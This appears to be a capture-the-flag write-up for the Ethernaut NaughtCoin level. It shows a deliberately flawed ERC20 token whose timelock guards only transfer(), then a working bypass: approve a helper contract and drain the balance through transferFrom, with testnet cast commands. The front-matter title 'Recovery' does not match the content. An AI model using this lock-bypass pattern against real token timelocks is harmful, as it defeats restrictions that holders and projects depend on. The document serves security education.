 ```yaml
---
title: "Recovery"
tags: ["Inheritance", "ERC20"]
reference: https://ethernaut.openzeppelin.com/level/15
---
```


# Description

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

- The ERC20 Spec
- The OpenZeppelin codebase

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

# Solution

1. NaughtCoin is child contract of ERC20

2. only `transfer` function is overrided with `lockTokens` modifier

3. but ERC20 also support `transferFrom` function

ref: https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md#transferfrom

4. check ERC20 source code

We need to **approve** the spender to transfer our token first.

```sol
function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, value);
    _transfer(from, to, value);
    return true;
}
```

5. deploy `NaughtCoinSpender` contract

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface INaughtCoin {
    function transferFrom(address _from, address _to, uint256 _value) external returns (bool);
}

contract NaughtCoinSpender {

    function pwn(address _coin, uint256 _value) external {
        INaughtCoin(_coin).transferFrom(msg.sender, address(this), _value);
    }

}
```

6. approve spender to transfer our tokens

```
cast send 0x49F659554835908eF97170500cd62f7AA8c526F9 "approve(address,uint256)" 0xa9Dd28C03518CE04d87c812CfD58273d841A9F7F 1000000000000000000000000 --rpc-url $BASE_SEPOLIA_RPC --private-key 
```

7. call `pwn()` function

```
cast send 0xa9Dd28C03518CE04d87c812CfD58273d841A9F7F "pwn(address,uint256)"  0x49F659554835908eF97170500cd62f7AA8c526F9 1000000000000000000000000 --rpc-url $BASE_SEPOLIA_RPC --private-key
```

8. check player balance

```
await contract.balanceOf(player)
(2) [0, empty]
```
